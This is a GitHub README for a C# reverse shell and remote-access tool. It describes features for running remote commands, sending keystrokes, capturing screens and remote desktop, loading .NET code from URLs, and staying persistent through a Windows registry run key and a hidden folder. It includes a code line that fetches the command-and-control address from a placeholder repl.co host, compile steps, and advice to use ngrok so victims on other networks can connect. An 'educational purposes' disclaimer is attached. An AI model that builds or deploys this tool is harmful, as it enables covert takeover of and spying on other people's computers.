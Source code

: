 # README.MD
### Project Description
This project is a demonstration of a reverse shell written in C#. It is a powerful tool for remote system management, intended for educational and research purposes.

#### Key Code Features
1. Network Connection: The code uses the TcpClient class to establish a network connection with a remote server. The server's IP address and port are retrieved from a remote web server.

2. Cryptography: To ensure communication security, the code utilizes the SHA256 hashing algorithm and XOR encryption, along with RSA encryption for end-to-end encryption. The keys are regenerated for each iteration to enhance security.

3. Command Handling: The code can read commands from a process's standard output stream and send them to the server. It can also read commands from the server and execute them on the local machine.

4. Additional Functionality: The code includes additional features such as sending keyboard keystrokes, displaying message boxes, executing commands asynchronously, capturing remote screenshots, and loading .NET libraries from URLs.

5. Persistence: The code attempts to make the reverse shell persistent by adding an entry to the Windows registry to execute the program during the user's session startup. It also copies the executable file into a hidden directory.

#### Usage
To download .NET 7.0 as a portable version, see here: Download .NET 7.0 SDK

Direct link: dotnet-sdk-7.0.306-win-x64.zip

#### Compile the Client:
To get started, change the URL at line 158 of client\Program.cs:

```csharp
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
Then, compile the client using dotnet.exe:

```cmd / powershell
dotnet.exe publish client.csproj
```
The single-file binary can be found at:
```path
client\bin\Debug\net7.0-windows\win-x64\publish
```
Next, publish the server:

```cmd / powershell
dotnet.exe publish server.csproj
```
The single-file binary can be found at:

```path
server\bin\Debug\net7.0-windows\win-x64\publish
```
To connect to the server from a network other than the client's, it is recommended to use the ngrok tunneling service and add the IP address and port to a web server with a fixed domain (e.g., on a Repl.it HTML, CSS, JS on https://replit.com).

// The IP address and port must be separated by a colon only.

Example:

```IP:Port
1.2.3.4:8080
```
### Demonstration
#### For information, the videos were recorded on the same machine with real-time threat protection enabled [without sending samples], but it is indeed CLIENT.EXE that performs the actions.

##### - reverse shell
If You Don't see : https://github.0xsql.repl.co/reverse_shell.gif
<img src="https://github.0xsql.repl.co/reverse_shell.gif">

##### - MessageBox and SendKeys
If You Don't see : https://github.0xsql.repl.co/send_keys_and_msgb.gif
<br> example of command
msgb>/Your Message
SKS>/Your Keys

##### - remote-desktop
If You Don't see : https://github.0xsql.repl.co/remote-desktop.gif
<br> For remote-desktop start server-remote-video.exe in remote-video\server-remote-video\server\bin\Debug
and execute the command on server.exe :
remote-desktop>/<Your IP Address>:8081

#### Disclaimer
This project is published for educational and research purposes. The author is not responsible for any misuse of this tool.
